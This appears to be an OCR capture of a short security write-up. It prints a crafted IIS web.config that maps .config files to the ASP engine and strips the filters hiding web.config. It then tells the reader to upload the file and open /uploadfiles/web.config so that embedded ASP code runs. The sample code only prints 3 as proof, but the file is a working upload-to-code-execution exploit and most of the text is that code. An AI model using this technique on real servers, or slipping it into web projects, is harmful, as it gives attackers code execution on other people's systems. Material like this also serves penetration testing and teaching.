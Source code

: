 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

Lets try uploading this code to the server and navigate to  `/uploadfiles/web.config`.
